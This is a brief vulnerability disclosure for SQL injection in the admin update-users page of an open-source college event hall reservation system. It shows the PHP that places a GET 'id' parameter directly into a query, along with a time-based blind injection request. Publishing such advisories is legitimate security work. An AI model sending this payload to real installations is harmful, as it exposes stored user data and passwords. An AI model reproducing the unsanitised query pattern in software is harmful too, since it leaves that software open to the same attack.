 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection update-users.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/update-users.php

## Code
```php
 if(isset($_GET['id'])){
                    $user_id1=$_GET['id'];
                    $sql1="SELECT * FROM tbl_user WHERE user_id='$user_id1'";
                    $res1=mysqli_query($conn,$sql1);
                    if($res1==True){
                        while($row=mysqli_fetch_assoc($res1)){
                            $userid=$row['user_id'];
                            $username=$row['user_name'];
                            $userdept=$row['user_dept'];
                            $useremail=$row['user_email'];
                            $userpassword=$row['user_password'];
                        }
                    }
                }
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/update-users.php?id='+or+1%3dsleep(5)+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/1ef5b945-9f1e-43c9-bf9d-c4b00a932c27)


